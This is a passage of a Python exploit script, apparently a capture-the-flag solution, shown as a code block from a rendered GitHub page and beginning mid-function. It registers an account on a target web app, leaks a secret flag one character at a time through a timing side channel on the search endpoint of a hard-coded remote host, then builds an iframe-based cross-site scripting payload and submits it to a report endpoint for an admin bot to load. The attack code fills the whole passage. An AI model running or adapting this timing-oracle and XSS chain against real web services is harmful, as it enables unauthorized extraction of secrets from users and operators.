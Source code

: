 ```js
        headers=header,
    )
    print(r.text)
    r = r.headers.get("Location")
    return r


s.post(
    url + "/register", data={"username": "random", "password": "random"}, headers=header
)
s.post(
    url + "/login", data={"username": "random", "password": "random"}, headers=header
)

XSS_NOTE = create_xss_note()
known = ""
for i in range(8):
    k = 1
    while len(known) <= i:
        for j in "abcdefghijklmnopqrstuvwxyz0123456789":
            search = f"Flag-{known+j}******************"+i * i * "*" + k * k * "*"
            r = requests.Request(
                "POST",
                url + "/search",
                cookies=s.cookies.get_dict(),
                data={
                    "searchTitle": (
                        search
                    )
                },
                headers=header,
            ).prepare()

            io = remote("34.18.37.24", 10505)
            print("length:- ",len(search)-5)
            raw_request = convert_to_raw(r)
            io.send(raw_request.encode())
            io.recv(1024)
            t1 = time.time()
            io.recvall()
            t2 = time.time()
            print(i, known + j)
            if t2 - t1 > 2:
                known += j
                print("the key ",i, known)
                break
            io.close()
        k += 2
print(known)

print(XSS_NOTE)

payload = f"""<iframe id='flag' name="flag" src="./{known}" ></iframe>
<iframe src="./..{XSS_NOTE.replace("/","%2f")}%2fraw/share" ></iframe>"""

print(payload)

print(
    s.post(url + "/report", data={"title": "xss", "note": payload}, headers=header).text
)
```